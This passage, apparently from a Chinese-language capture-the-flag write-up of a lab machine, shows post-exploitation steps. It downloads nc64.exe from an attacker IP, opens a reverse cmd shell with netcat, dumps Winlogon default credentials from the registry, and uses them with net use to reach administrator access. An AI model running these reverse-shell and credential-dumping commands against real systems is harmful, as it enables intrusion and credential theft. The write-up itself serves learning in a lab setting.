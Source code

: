 https://github.com/int0x33/nc.exe/blob/master/nc64.exe

传输到靶机

```powershell
C:\inetpub\wwwroot\internal-01\log>powershell "wget http://10.10.14.41:8080/nc64.exe -OutFile nc64.exe"

C:\inetpub\wwwroot\internal-01\log>nc64.exe -e cmd 10.10.14.41 4443
nc64.exe -e cmd 10.10.14.41 4443
```


重新在新的监听端口得到64位的shell

![image-20200928093814793]({{ site.url }}/assets/Bart_81.assets/image-20200928093814793.png)


转储默认凭据
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

![image-20200928093832396]({{ site.url }}/assets/Bart_81.assets/image-20200928093832396.png)

```powershell
DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
DefaultUserName    REG_SZ    Administrator
DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb
```

进入powershell并使用默认凭据利用net use 命令建立共享，参考 https://www.cnblogs.com/mamiyiya777/p/11017875.html

```powershell
C:\inetpub\wwwroot\internal-01\log>powershell
powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\internal-01\log> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
```

![image-20200928094033586]({{ site.url }}/assets/Bart_81.assets/image-20200928094033586.png)

得到user

![image-20200928094104748]({{ site.url }}/assets/Bart_81.assets/image-20200928094104748.png)

root也同时得到

![image-20200928094158562]({{ site.url }}/assets/Bart_81.assets/image-20200928094158562.png)